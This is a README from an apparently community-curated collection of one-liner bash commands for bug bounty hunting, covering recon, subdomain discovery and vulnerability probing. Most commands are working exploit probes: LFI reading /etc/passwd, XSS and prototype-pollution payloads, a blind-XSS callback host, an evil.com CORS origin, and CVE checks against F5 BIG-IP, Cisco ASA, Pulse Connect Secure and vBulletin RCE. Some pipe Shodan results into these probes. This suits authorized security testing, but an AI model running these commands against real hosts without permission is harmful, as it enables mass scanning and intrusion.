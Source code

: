 # Awesome One-liner Bug Bounty Tips By Lostsec, (Not Official Readme)

Welcome to the repository of awesome one-liner scripts, specifically curated for bug bounty hunting. This collection includes powerful commands contributed by the community, designed to aid in various vulnerability assessments and security testing scenarios.

## Definitions

Before diving into the commands, here are some definitions used throughout the scripts:

- **HOST**: Refers to a hostname, (sub)domain, or IP address.
- **HOSTS.txt**: File containing multiple HOST entries.
- **URL**: Refers to a URL starting with HTTP/HTTPS protocol.
- **URLS.txt**: File containing multiple URL entries.
- **FILE.txt**, **FILE{N}.txt**: File(s) required for command/script execution.
- **OUT.txt**, **OUT{N}.txt**: File where command output is stored.

## Commands

### Local File Inclusion (LFI)

```bash
gau HOST | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open Redirect

```bash
export LHOST="URL"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS (Cross-Site Scripting)

```bash
gospider -S URLS.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}' | grep "=" | qsreplace -a | dalfox pipe | tee OUT.txt
```

```bash
waybackurls HOST | gf xss | sed 's/=.*/=/' | sort -u | tee FILE.txt && cat FILE.txt | dalfox -b YOURS.xss.ht pipe > OUT.txt
```

```bash
cat HOSTS.txt | getJS | httpx --match-regex "addEventListener\((?:'|\")message(?:'|\")"
```

### Prototype Pollution

```bash
subfinder -d HOST -all -silent | httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\/?__proto__[testparam]=exploit\//' FILE.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
```

### CVE-2020-5902 (F5 BIG-IP)

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host; do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n"; done
```

### CVE-2020-3452 (Cisco ASA)

```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < HOSTS.txt
```

### CVE-2022-0378 (Pulse Connect Secure)

```bash
cat URLS.txt | while read h; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x" | grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

### vBulletin 5.6.2 - Remote Code Execution

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host; do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n"; done;
```

### Find JavaScript Files

```bash
site="URL"; gau "$site" | while read url; do target=$(curl -sIH "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found] echo $url; else echo Nothing on "$url"; fi; done
```

### Find Hidden Servers and/or Admin Panels

```bash
ffuf -c -u URL -H "Host: FUZZ" -w FILE.txt
```

### Recon Using api.recon.dev

```bash
curl -s -w "\n%{http_code}" https://api.recon.dev/search?domain=HOST | jg .[].domain
```

### Find Live Host/Domain/Assets

```bash
subfinder -d HOST -silent | httpx -silent -follow-redirects -mc 200 | cut -d '/' -f3 | sort -u
```

### XSS without gf

```bash
waybackurls HOST | grep '=' | qsreplace '"><script>alert(1)</script>' | while read host; do curl -sk --path-as-is "$host" | grep -qs "<script>alert(1)</script>" && echo "$host is vulnerable"; done
```

### Get Subdomains from IPs

```bash
python3 hosthunter.py HOSTS.txt > OUT.txt
```

### Gather Domains from Content-Security-Policy

```bash
curl -vs URL --stderr - | awk '/^content-security-policy:/' | grep -Eo "[a-zA-Z0-9./?=_-]*" |  sed -e '/\./!d' -e '/[^A-Za-z0-9._-]/d' -e 's/^\.//' | sort -u
```

### Nmap IP:PORT Parser Piped to HTTPX

```bash
nmap -v0 HOST -oX /dev/stdout | jc --xml -p | jq -r '.nmaprun.host | (.address["@addr"] + ":" + .ports.port[]["@portid"])' | httpx --silent
```

---

## Contribution

Contributions and suggestions are warmly welcomed to expand and enhance this repository. Feel free to submit your own one-liner scripts via pull requests.

## Credits

- Contributors: Various bug bounty hunters mentioned alongside their scripts.
- Maintainer: @lostsec

---

This README serves as a comprehensive guide to utilizing these one-liner scripts effectively for bug bounty hunting and security testing. Happy hunting! 🐞💻
